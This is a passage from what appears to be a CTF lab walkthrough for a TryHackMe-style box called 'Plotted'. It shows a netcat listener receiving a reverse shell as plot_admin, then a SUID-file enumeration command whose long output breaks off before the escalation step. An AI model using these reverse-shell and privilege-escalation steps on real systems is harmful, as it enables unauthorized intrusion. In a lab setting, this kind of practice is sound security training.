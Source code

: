   ```
  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.242.82] 60084
  bash: cannot set terminal process group (40050): Inappropriate ioctl for device
  bash: no job control in this shell
  plot_admin@plotted:~$ whoami
  whoami
  plot_admin
  plot_admin@plotted:~$ id
  id
  uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
  ```

- Read the flag and move to root escalation.

---

## 👑 Root Privilege Escalation

- Here, I spent some time enumerating and found my way to root through SUID.

  ```
  plot_admin@plotted:~$ find / -type f -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
  -rwsr-xr-x 1 root root 43088 Sep 16  2020 /snap/core18/2284/bin/mount
  -rwsr-xr-x 1 root root 64424 Jun 28  2019 /snap/core18/2284/bin/ping
  -rwsr-xr-x 1 root root 44664 Mar 22  2019 /snap/core18/2284/bin/su
  -rwsr-xr-x 1 root root 26696 Sep 16  2020 /snap/core18/2284/bin/umount
  -rwsr-xr-x 1 root root 76496 Mar 22  2019 /snap/core18/2284/usr/bin/chfn
  -rwsr-xr-x 1 root root 44528 Mar 22  2019 /snap/core18/2284/usr/bin/chsh
  -rwsr-xr-x 1 root root 75824 Mar 22  2019 /snap/core18/2284/usr/bin/gpasswd
  -rwsr-xr-x 1 root root 40344 Mar 22  2019 /snap/core18/2284/usr/bin/newgrp
  -rwsr-xr-x 1 root root 59640 Mar 22  2019 /snap/core18/2284/usr/bin/passwd
  -rwsr-xr-x 1 root root 149080 Jan 19  2021 /snap/core18/2284/usr/bin/sudo
  -rwsr-xr-- 1 root systemd-resolve 42992 Jun 11  2020 /snap/core18/2284/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  -rwsr-xr-x 1 root root 436552 Aug 11  2021 /snap/core18/2284/usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 43088 Sep 16  2020 /snap/core18/2246/bin/mount
  -rwsr-xr-x 1 root root 64424 Jun 28  2019 /snap/core18/2246/bin/ping
  -rwsr-xr-x 1 root root 44664 Mar 22  2019 /snap/core18/2246/bin/su
  -rwsr-xr-x 1 root root 26696 Sep 16  2020 /snap/core18/2246/bin/umount
  -rwsr-xr-x 1 root root 76496 Mar 22  2019 /snap/core18/2246/usr/bin/chfn
  -rwsr-xr-x 1 root root 44528 Mar 22  2019 /snap/core18/2246/usr/bin/chsh
  -rwsr-xr-x 1 root root 75824 Mar 22  2019 /snap/core18/2246/usr/bin/gpasswd
  -rwsr-xr-x 1 root root 40344 Mar 22  2019 /snap/core18/2246/usr/bin/newgrp
  -rwsr-xr-x 1 root root 59640 Mar 22  2019 /snap/core18/2246/usr/bin/passwd
  -rwsr-xr-x 1 root root 149080 Jan 19  2021 /snap/core18/2246/usr/bin/sudo
  -rwsr-xr-- 1 root systemd-resolve 42992 Jun 11  2020 /snap/core18/2246/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  -rwsr-xr-x 1 root root 436552 Aug 11  2021 /snap/core18/2246/usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 85064 Jul 14  2021 /snap/core20/1328/usr/bin/chfn
  -rwsr-xr-x 1 root root 53040 Jul 14  2021 /snap/core20/1328/usr/bin/chsh
  -rwsr-xr-x 1 root root 88464 Jul 14  2021 /snap/core20/1328/usr/bin/gpasswd
  -rwsr-xr-x 1 root root 55528 Jul 21  2020 /snap/core20/1328/usr/bin/mount
  -rwsr-xr-x 1 root root 44784 Jul 14  2021 /snap/core20/1328/usr/bin/newgrp
  -rwsr-xr-x 1 root root 68208 Jul 14  2021 /snap/core20/1328/usr/bin/passwd
  -rwsr-xr-x 1 root root 67816 Jul 21  2020 /snap/core20/1328/usr/bin/su
  -rwsr-xr-x 1 root root 166056 Jan 19  2021 /snap/core20/1328/usr/bin/sudo
  -rwsr-xr-x 1 root root 39144 Jul 21  2020 /snap/core20/1328/usr/bin/umount
  -rwsr-xr-- 1 root systemd-resolve 51344 Jun 11  2020 /snap/core20/1328/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  -rwsr-xr-x 1 root root 473576 Dec  2  2021 /snap/core20/1328/usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 85064 Jul 14  2021 /snap/core20/1169/usr/bin/chfn
  -rwsr-xr-x 1 root root 53040 Jul 14  2021 /snap/core20/1169/usr/bin/chsh
  -rwsr-xr-x 1 root root 88464 Jul 14  2021 /snap/core20/1169/usr/bin/gpasswd
  ```